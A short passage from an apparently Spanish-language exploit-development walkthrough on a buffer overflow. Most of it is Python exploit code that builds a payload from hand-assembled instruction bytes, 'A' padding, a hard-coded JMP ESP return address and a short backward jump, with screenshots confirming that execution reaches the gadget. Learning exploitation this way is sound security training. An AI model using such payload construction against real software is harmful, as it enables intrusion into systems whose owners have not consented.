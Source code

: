 Bien con esto dicho toca ver si va bien :

reiniciamos el programa y nuestro pyload deberia de verse asi 

```python
recv = b""
recv += b"\x54"                 #   Push ESP
recv += b"\x58"                 #   Pop AEX
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
recv += b"\x8b\x30"             #   mov esi, dword [eax]

offset = 66 - len(recv)
junk = recv + b"A"*offset
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70
```


![paste](./images/96.jpeg)

Llegamos a nuestro jmp_esp

```python
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
```

![paste](./images/97.jpeg)
